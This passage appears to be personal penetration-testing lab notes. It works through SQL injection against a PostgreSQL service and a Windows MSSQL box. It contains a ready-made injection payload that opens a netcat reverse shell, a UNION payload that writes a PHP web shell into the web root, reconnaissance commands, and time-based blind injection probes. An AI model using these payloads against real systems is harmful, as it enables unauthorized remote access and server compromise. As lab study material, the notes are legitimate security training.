script does not work as we don't have the password so inject the sql directly
`python3 postgrexploit.py -i 192.168.206.49 -p 5432 -d glovedb -c ifconfig`

regular commands don't get output at all, so we need to create a reverse shell
```
1'; DROP TABLE IF EXISTS cmd_exec; CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'nc 192.168.45.194 4444 -e /bin/bash'; SELECT * FROM cmd_exec; --
```

### VM 4 - windows box
```
nmap 192.168.197.50
gobuster dir -u http://192.168.197.50:80 -w /usr/share/wordlists/dirb/common.txt -p pattern
whatweb 192.168.197.50
```

test for sqli
```
test'
test' OR 1=1 -- //
```

determine num cols on height
```
1' ORDER BY 1-- //
1' ORDER BY 2-- //
1' ORDER BY 3-- //
1' ORDER BY 4-- //
1' ORDER BY 5-- //
1' ORDER BY 6-- //
1' ORDER BY 7-- //
```

find that it errors at 3 so there are 2 cols
```
test' UNION SELECT null, fake  --
test' UNION SELECT CURRENT_USER, NULL  --
test' UNION SELECT "<?php system($_GET['cmd']);?>", null INTO OUTFILE "/Inetpub/wwwroot/webshell.php" -- //
```

none of the above works because only errors are getting output
also this is MSSQL - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md#mssql-blind-based
https://medium.com/@vikramroot/exploiting-time-based-sql-injections-data-exfiltration-791aa7f0ae87
```
test' AND IF(SUBSTRING(version(),1,1)=5,SLEEP(10),null) # mysql version
test';waitfor delay '0:0:10'--
test';IF(SUBSTRING(DB_NAME(),1,1)='w') WAITFOR DELAY '0:0:5'--
test';IF(SUBSTRING(@@version,1,1)='M') WAITFOR DELAY '0:0:5'--
```

Microsoft SQL Server 2019
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md#mssql-command-execution
